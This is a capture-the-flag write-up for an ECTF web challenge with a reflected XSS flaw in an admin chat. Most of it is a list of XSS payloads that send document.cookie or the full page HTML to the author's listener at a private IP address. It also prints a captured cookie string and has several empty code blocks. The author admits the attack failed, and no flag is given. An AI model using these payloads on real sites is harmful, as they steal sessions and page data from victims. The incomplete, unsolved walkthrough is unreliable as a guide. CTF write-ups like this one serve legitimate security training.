

### **Challenge Name**: Chat with the Admin

---

### **Description**:

The admin has provided a chat where you can ask him questions.  
He is not very active but regularly checks this page.  
It seems that the flag is present on his interface, maybe you could retrieve it. 😉

Deploy the instance here to play: [https://instances.ectf.fr](https://instances.ectf.fr)  
**Flag format**: `ECTF{....}`

**Instance**:  
[Instance](http://instances.ectf.fr:25697/)

---

### **Solution**:

Opening the website reveals an admin chat box. When we enter a message, there's no response, but our message gets reflected back. This suggests that the input might not be sanitized, which could indicate a Reflected XSS vulnerability.

Let's test with a simple payload:  
`<script>alert(1);</script>`

And indeed, the alert pops up!



Now that we know the input is reflected and possibly vulnerable, we can try to enumerate the system. Our first step is to check if we can find the flag path or any useful information.

We start by inspecting cookies:
```plaintext
DO_NOT_EDIT=5794fb77c3b92bb505a017ec1dbb6df849f891bb847285ef4fb7def7a9c2996f; id_value=7xrjxj5zv0a6urax; username=Dave
```

Next, we try using various XSS payloads to steal cookies and gather more data:

```html
<script>document.location='http://192.168.228.129:4444?cookie='+document.cookie</script>
```

```html

```

```html
<script src="http://192.168.228.129/bogus.php"">console.log(document.cookie);</script>
```

```html

```

```html
<script>
fetch('http://192.168.228.129:8000/cookie.txt', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        pageContent: document.documentElement.innerHTML, 
        cookies: document.cookie
    })
});
</script>
```

```html
<script>var i=new Image; i.src="http://192.168.228.129:8080/?"+document.cookie;</script>
```

```html
<script>var i=new Image(); i.src="https://192.168.228.129:8000/?cookie="+btoa(document.cookie);</script>
```

```html
<script>fetch('http://192.168.228.129:8000/?cookie=' + btoa(document.cookie));</script>
```

```html
<script>
fetch('http://192.168.228.129:8000/', {
    method: 'POST',
    mode: 'no-cors',
    body: document.documentElement.outerHTML
});
</script>
```

```html
<script>
await fetch('http://192.168.228.129:8000/page_data', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(allResources),
    headers: {
        'Content-Type': 'application/json'
    }
});
</script>
```

```html
<script>
fetch('http://192.168.228.129:8000/page_data', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        pageContent: document.documentElement.innerHTML,
        location: window.location.href
    })
});
</script>
```

```html
<script>var i=new Image;i.src="http://192.168.228.129:8000/?"+document.cookie;</script>
```

Finally, after trying several payloads, one of them should retrieve the flag, but for some reason, it didn’t work for me in the duration of the CTF...

```html

```

---

### **Flag**:

After successfully retrieving the correct cookie or data, the flag format is:  
`ECTF{....}`

---